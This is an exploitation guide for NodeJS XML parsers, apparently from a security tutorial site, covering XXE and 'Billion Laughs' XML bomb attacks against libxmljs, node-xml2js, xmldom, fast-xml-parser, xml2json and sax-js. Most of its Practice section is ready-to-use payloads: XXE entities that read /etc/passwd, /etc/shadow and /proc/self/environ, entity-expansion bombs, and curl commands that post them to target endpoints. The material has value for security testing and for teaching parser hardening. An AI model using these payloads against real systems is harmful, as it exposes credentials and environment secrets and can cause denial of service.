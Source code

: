 ```yaml
---
title: NodeJS XML Parser Exploitation Guide
description: Learn to exploit XXE and XML bomb vulnerabilities in NodeJS parsers like
  libxmljs and xmldom.
keywords:
- NodeJS XML parser
- XXE exploitation
- XML bomb attacks
- libxmljs
- node-xml2js
- xmldom
- security vulnerabilities
---
```


# NodeJS XML Parser Exploitation

## Context

This article explores the exploitation of XXE (XML External Entity) vulnerabilities and XML bomb attacks in popular NodeJS XML parsers. It assumes a foundational understanding of XML structure and syntax, including entity declaration and DTD basics. Additionally, the reader should be familiar with general XXE injection concepts.

## Theory

### NodeJS XML Parsing Ecosystem

NodeJS XML parsers are JavaScript libraries used for handling XML data in server-side applications. The security of these parsers relies significantly on their default configuration settings and how they handle entity resolution. Unsecured configurations can expose applications to XXE and XML bomb vulnerabilities.

### XXE Vulnerabilities in NodeJS Parsers

Certain NodeJS XML parsers, such as libxmljs, node-xml2js, and xmldom, may inadvertently allow external entity resolution. As a result, they become susceptible to XXE vulnerabilities when not properly configured to block external entities. This allows attackers to read arbitrary files or potentially execute further payloads from injected XML.

### XML Bomb Attacks in NodeJS

XML bomb attacks leverage recursive entity expansions to exhaust system resources, leading to denial of service conditions. For NodeJS, this involves crafting payloads that dramatically increase the size and complexity of XML content through entity expansion, depleting memory or CPU resources.

### Parser-Specific Exploitation Considerations

Each NodeJS XML parser has a unique configuration and vulnerability profile. Exploiters must identify the specific parser used, test for XXE and XML bomb vulnerabilities, and tailor payloads to exploit configuration weaknesses without over-relying on a generic approach.

## Practice

### Exploiting XXE in libxmljs

To exploit an XXE vulnerability in an application using libxmljs:

- Use a payload crafted to read the contents of sensitive files:
  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <root>&xxe;</root>
  ```

- Send the XML payload to the target application endpoint:
  
  ```bash
  curl -X POST -d @payload.xml http://target-app/upload --header "Content-Type: application/xml"
  ```

Upon successful execution, this will allow access to the contents of `/etc/passwd`, often disclosed in the server's response or logs.

### Exploiting XXE in node-xml2js

To exploit an XXE in node-xml2js, create a payload to extract server environment variables:

- Craft the XML payload:
  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///proc/self/environ"> ]>
  <root>&xxe;</root>
  ```

- Deliver the payload to the application's API endpoint:
  
  ```bash
  curl -X POST -d @payload.xml http://target-app/api/xml --header "Content-Type: application/xml"
  ```

This could result in environment variables being leaked through the application's response.

### Triggering XML Bomb in xmldom

XML bombs aim to exhaust system resources:

- Create the 'Billion Laughs' XML bomb payload:
  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE lolz [
    <!ENTITY a "1234567890" >
    <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;" >
    <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;" >
    <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;" >
  ]>
  <root>&d;</root>
  ```

- Send the bomb to the xmldom-based endpoint:
  
  ```bash
  curl -X POST -d @bomb.xml http://target-app/xmlparse --header "Content-Type: application/xml"
  ```

Successful execution results in the server's CPU and memory spiking, potentially causing a denial of service.

### Testing fast-xml-parser for XXE

Validate whether fast-xml-parser has XXE vulnerabilities:

- Prepare a test payload:

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
  <root>&xxe;</root>
  ```

- Deploy it to the parsing endpoint:

  ```bash
  curl -X POST -d @payload.xml http://target-app/parse --header "Content-Type: application/xml"
  ```

Analyze the server's response to discover any vulnerabilities.

### Testing xml2json for XXE

Test xml2json parser's strength against XXE:

- Design the XML payload:

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hosts"> ]>
  <root>&xxe;</root>
  ```

- Send to the xml2json endpoint:

  ```bash
  curl -X POST -d @payload.xml http://target-app/xml2json --header "Content-Type: application/xml"
  ```

Check the application's behavior to determine vulnerability presence.

### Testing sax-js for XXE and XML Bomb

Evaluate sax-js for both XXE and XML bomb vulnerabilities:

- Test for XXE:
  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
  <root>&xxe;</root>
  ```

- Test for XML bomb:

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE lolz [
    <!ENTITY a "1234567890" >
    <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;" >
    <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;" >
    <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;" >
  ]>
  <root>&d;</root>
  ```

- Deliver to SAX endpoint:

  ```bash
  curl -X POST -d @payload.xml http://target-app/sax --header "Content-Type: application/xml"
  ```

Observe to identify how sax-js processes the payloads.

## Tools

- **curl**